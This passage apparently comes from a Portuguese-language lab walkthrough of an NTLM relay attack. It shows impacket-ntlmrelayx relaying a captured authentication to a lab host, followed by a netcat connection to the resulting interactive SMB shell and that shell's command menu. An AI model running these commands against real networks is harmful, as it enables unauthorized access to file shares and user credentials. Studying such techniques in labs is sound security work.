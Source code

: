 ** [*] Started interactive SMB client shell via TCP on 127.0.0.1:11000 **

```terminal
┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support -i
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!



```

Para tal basta abrir uma sessão com _netcat_ para o IP/Porto que a nossa sessão está estabecida.

```terminal

┌──(kali㉿insecure)-[~]
└─$ nc -nv 127.0.0.1 11000
(UNKNOWN) [127.0.0.1] 11000 (?) open
Type help for list of commands
# ?

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
```